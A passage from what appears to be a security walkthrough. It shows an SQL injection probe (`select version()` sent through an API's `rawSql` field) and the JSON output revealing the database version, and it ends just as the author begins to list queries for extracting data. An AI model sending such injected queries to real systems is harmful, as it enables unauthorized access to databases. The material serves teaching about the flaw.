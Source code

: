 ## Exploit

Trying out something like `select version()` in `rawSql`'s value gives you the following output:

```json
{
  "results": {
    "A": {
      "status": 200,
      "frames": [
        {
          "schema": {
            "refId": "A",
            "meta": {
              "typeVersion": [
                0,
                0
              ],
              "executedQueryString": "select version();"
            },
            "fields": [
              {
                "name": "version",
                "type": "string",
                "typeInfo": {
                  "frame": "string",
                  "nullable": true
                }
              }
            ]
          },
          "data": {
            "values": [
              [
                "PostgreSQL 14.8 (Ubuntu 14.8-0ubuntu0.22.04.1) on x86_64-pc-linux-gnu, compiled by gcc (Ubuntu 11.3.0-1ubuntu1~22.04.1) 11.3.0, 64-bit"
              ]
            ]
          }
        }
      ]
    }
  }
}
```

This API endpoint is vulnerable to SQLi. We can try to exfiltrate data like username and passwords, however the password is hashed and can't be cracked so we have to take another approach.

If you're using SQLmap, it becomes trivially easy to dump all information but I wanted to share the manual way to do it so that we can understand the whole process. The following are the queries you will run so we can understand the structure and exfil data:
